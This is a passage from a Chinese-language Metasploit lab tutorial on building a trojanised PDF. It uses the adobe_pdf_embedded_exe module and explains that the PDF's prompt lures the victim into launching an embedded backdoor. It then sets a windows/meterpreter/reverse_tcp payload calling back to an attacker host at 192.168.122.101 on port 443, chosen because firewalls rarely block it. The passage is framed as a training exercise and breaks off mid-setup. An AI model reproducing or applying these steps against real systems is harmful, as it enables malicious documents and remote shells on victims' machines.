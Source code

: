 ### 4.5 查看结果

输出包含恶意代码的 PDF 文件在 `/root/.msf4/local/evil.pdf`，使用 `exit` 退出 msfconsole 后，可以查看该文件：

![此处输入图片的描述](../imgs/wm_22.png)

从上图中可以看到文件的大小增大了 `45K`，这部分增多的内容就是我们嵌入的后门程序。文件打开的效果会弹出一个提示信息引导用户去点击，点击后就会启动嵌入的程序。

### 4.6 设置自己的 payload

为了让被感染的 PDF 具有更大的价值，我们准备给这个 PDF 设置一个自定义的 payload。

重新进入到 msfconsole：

```
msfconsole
```

在 msfconsole 下依次按照上述步骤执行，选择攻击模块：

```
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

此处我们使用的 payload 是 `windows/meterpreter/reverse_tcp`，如果想选择其他的 payload，可以使用 `show payloads` 命令查看并选择。

`windows/meterpreter/reverse_tcp` 是 meterpreter 后门程序，会从被攻击的主机建立到攻击者主机的 TCP 连接，攻击者能够直接进入被攻击的主机。

使用 `windows/meterpreter/reverse_tcp` 作为嵌入的 payload：

```
msf > set payload windows/meterpreter/reverse_tcp
```

对 payload 进行配置，至少需要指定 Kali 的 IP 地址和端口用来接收后门建立的连接，这里需要注意目标主机必须和我们 Kali 主机互相之间可以连接：

```
msf > set lhost 192.168.122.101
msf > set lport 443
```

使用 443 端口的好处是不容易被防火墙拦住。
